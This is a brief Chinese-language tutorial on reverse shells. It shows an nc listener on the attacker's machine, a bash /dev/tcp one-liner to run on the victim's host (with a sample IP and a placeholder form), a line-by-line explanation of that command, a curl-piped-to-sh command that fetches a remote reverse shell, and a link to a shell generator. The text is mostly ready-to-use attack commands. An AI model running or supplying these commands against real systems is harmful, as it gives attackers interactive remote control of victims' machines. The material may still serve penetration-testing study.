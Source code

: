 # 反弹 Shell

首先，在攻击者机器上监听端口（如 4444），确保受害者主机能够访问攻击者机器，通常攻击者机器指具备公网 IP 地址的云服务器。

```bash
$ nc -lvp 4444 
listening on [any] 4444 ...
```

然后，在受害者机器上执行反向 shell 的命令。

## Bash

```bash
# bash -i >& /dev/tcp/192.168.200.134/4444 0>&1
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
```

参数解释：

1. `bash -i`：启动一个交互式 Bash shell。
2. `>&`：重定向符号，表示将标准输出（stdout）和标准错误（stderr）重定向到同一目的地（攻击者）。
3. `/dev/tcp/<ATTACKER-IP>/<PORT>`：特殊的设备文件，表示与指定 IP 地址和端口的 TCP 连接。
4. `0>&1`：将标准输入（stdin）重定向到标准输出（stdout），这样目标机器可以接收来自攻击者的输入。

![nc-reverseshell](../images/nc-reverseshell.png)

## 其他

```bash
curl https://reverse-shell.sh/yourip:1337 | sh 
```

## 工具

<https://www.revshells.com/>

